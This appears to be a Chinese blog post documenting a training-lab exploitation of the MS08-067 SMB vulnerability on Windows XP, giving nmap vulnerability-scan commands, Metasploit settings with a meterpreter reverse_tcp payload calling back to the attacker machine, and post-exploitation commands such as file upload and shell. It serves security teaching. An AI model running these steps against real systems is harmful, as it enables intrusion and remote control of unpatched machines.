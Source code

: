 ```yaml
---
layout:     post
title:      MS08-067远程溢出漏洞
subtitle:   CVE-2008-4250
date:       2018-05-09
author:     Waldo
header-img: img/post-bg-swift2.jpg
catalog: true
tags:
    - web安全 
    
---
```


[使用i春秋环境实验](https://www.ichunqiu.com/vm/61591/1)


#### 实验环境

*   操作机 ：`Kali 2017`

*   操作机IP：`172.16.11.2`

*   目标机：`Windows XP S2 中文版`

*   目标机IP：`172.16.12.2`

#### 实验目的

*   认知Windows远程溢出漏洞的危害

*   知悉MS08-067漏洞的发现和验证过程

*   学习Metasploit工具的使用

#### 实验工具

`Nmap`:端口扫描探测工具，用于探测端口开放情况，本次使用其端口扫描和漏洞扫描功能

`mestasploit`：开源的渗透测试框架软件、综合型漏洞利用工具，本次实验使用其漏洞利用模块、meterpreter组件

#### 实验内容

**漏洞原理简述**

MS08-067 漏洞是通过MSRPC over SMB通道调用Server程序中的NEtPathCanonicalize函数时触发的。

NetPathCanonicalize 函数在远程访问其他主机时，会调用NetpwPathCanonicalize函数，对远程访问的路径进行规范化，而在NetpwPathCanonicalize函数中发生了栈缓冲区内存错误，造成可被利用实施远程代码执行。

#### 实验步骤

#### 第1步 漏洞探测

打开Kali终端，使用Nmap对目标机开放端口进行扫描

```
nmap  -sV -Pn 172.16.12.2

```

![nmap_sV2.png](https://upload-images.jianshu.io/upload_images/7216746-ef16014c013d64e5.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
 

目标机开放了`135``139``445``3389`端口，且目标机系统为Windows_XP。一想到XP或者2003系统的`445`端口开放，我们就能想到轰动一时的ms08-067。

我们使用nmap的漏洞扫描脚本查看漏洞是否可用

```
nmap -sV -Pn -p 445 --script smb-vuln-ms08-067.nse 172.16.12.2

```

![nmap_vul.png](https://upload-images.jianshu.io/upload_images/7216746-8f8f880f2c3eb72a.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
 

扫描结果`VULNERABLE`,可以利用

> nmap漏扫脚本目录：/usr/share/nmap/script/ 可自行查看其它脚本

#### 第2步 漏洞利用

终端内输入`msfconsole`打开 metasploite 命令行客户端，使用`search`命令查找ms08-067的漏洞利用模块

```
search ms08-067

```

使用`use`命令选择我们要使用的利用模块

![msf_use.png](https://upload-images.jianshu.io/upload_images/7216746-2b7ab8ee7dbdde76.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
 

在运行该模块之前，一般需要设置相关选项，我们使用`show options`查看配置信息

![msf_show01.png](https://upload-images.jianshu.io/upload_images/7216746-19486d7460906191.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


需要设置目标地址，设置命令：

```
set RHOST 172.16.12.2

```

之后，选择载荷`payload`，也就是`shellcode`,此处我们选择回连至控制端shell的payload

```
set payload  windows/meterpreter/reverse_tcp

```

当然载荷也需要进行配置，所以我们选择渗透所用的载荷后，同样使用`show options`查看配置信息

![show.png](https://upload-images.jianshu.io/upload_images/7216746-56f66480eac11959.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
 

配置中缺少本地主机 RHOST，设置一下

```
set LHOST 172.16.11.2

```

MS08-067 针对不同的系统可以选择不同的`target`,使用命令`show targets`可以看见支持的系统

![targets.png](https://upload-images.jianshu.io/upload_images/7216746-9c8e4fe05e1289ac.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
 

我们选择此次目标机的系统，编号10 `set target 10`

完成配置后，运行`exploit`,开始执行漏洞利用模块

![exploit.png](https://upload-images.jianshu.io/upload_images/7216746-e1e2065df8d45bbd.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
 

成功获取来自目标主机的Session会话

#### 第3步：Meterpreter常用命令

我们已经成功的获取Session会话了，接下来，我们使用`meterpreter`的一些常用基本功能

**`sysinfo`**

使用`sysinfo`命令可以查看目标系统的基本信息

![sysinfo.png](https://upload-images.jianshu.io/upload_images/7216746-abfed7fe564ce727.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
 

**`route`**

`route`命令用于显示目标主机的路由信息，通常用来探测目标机的网络情况，有助于网络拓扑的构建

![route.png](https://upload-images.jianshu.io/upload_images/7216746-d307bbf14568cbd2.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
 

**`upload` / `download`**

Meterpreter的`upload`和`download`命令可以上传文件到目标机器上，或下载文件至本地 （图中1.txt为自己新建的文件，内容任意）

![download.png](https://upload-images.jianshu.io/upload_images/7216746-d98c44ec1cbc70eb.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
 

> 思考：利用上传我们可以干啥？比如上传netcat.exe文件

**`shell`**

`shell` 命令用于获取一个可以交互的shell，方便执行系统命令

![shell.png](https://upload-images.jianshu.io/upload_images/7216746-4a2e8fc7d5da3556.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
 

> 思考: 结合上传我们可以做很多有意思的事

#### 实验结果分析与总结

通过本次实验，我们学习了从发现漏洞、到验证漏洞、再到利用漏洞这一整个过程，并初步学习了Metasploit这一工具的使用。后续我们会进一步探索其他漏洞，结合实例去学习MSF后渗透模块的知识

#### 思考

*   如果目标机的扫描结果是Win7系统，并且修补了MS08-067漏洞，该怎样去做？

*   发现目标开启了3389，我们还有途径？

